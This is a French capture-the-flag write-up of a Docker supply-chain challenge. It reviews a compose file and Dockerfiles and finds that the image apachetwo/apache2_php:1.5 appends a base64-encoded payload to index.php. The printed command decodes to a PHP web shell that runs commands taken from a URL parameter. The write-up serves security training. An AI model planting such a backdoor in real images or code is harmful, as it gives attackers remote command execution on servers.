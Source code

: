 # Write-up : Supply Chain Attack - Docker

## Le Contexte :

Le but de ce challenge était de trouver ce qu'il se passé dans l'environnement Docker qui nous était donné. Tout part d'un serveur web déployé avec plusieurs services Docker. L'idée était de repérer ce qui se tramais ici et récupérer un flag en trouvant une potentiel **"Supply Chain Attack"**.

## Explorer l'Environnement

Je commence par jeter un œil au fichier **docker-compose.yml**, qui liste les services Docker. On y trouve des trucs comme **Nginx**, **PHPMyAdmin**, **MySQL** et **Apache2**. Pas de flag visible, mais je remarque des services exposés (ports ouverts), ce qui me donne une piste pour chercher.

## Le Dockerfile de MySQL

Un coup d'œil rapide sur le **Dockerfile** utilisé pour **MySQL** montre quelques failles possibles (comme des mots de passe en dur), mais rien de vraiment décisif pour l'instant.

## Le service autoheal

J'ai regardé le service **autoheal** dans le fichier **docker-compose.yml** et, bien que sa fonction de redémarrage automatique des conteneurs puisse sembler suspecte, une inspection plus approfondie de l'image Docker n'a révélé aucune vulnérabilité ni comportement malveillant. Il ne semble donc pas y avoir de faille à exploiter ici.

## L'Image apachetwo/apache2_php:1.5 : **BINGO**

La vraie découverte arrive quand je regarde l'image **apachetwo/apache2_php:1.5** sur docker Hub. J'y trouve une ligne de commande qui m'interpelle :

~~~
/bin/sh -c echo $(echo "PD9waHAgc3lzdGVtKCRfR0VUW2Jhc2U2NF9kZWNvZGUoJ2NIZHdU5ESXYnKSk7Pz4.....=" | base64 -d) >> index.php
~~~


Bon là je me dis go **base64 --decode** cela me redonne une ligne à décoder et **BOOM**, le FLAG !!!
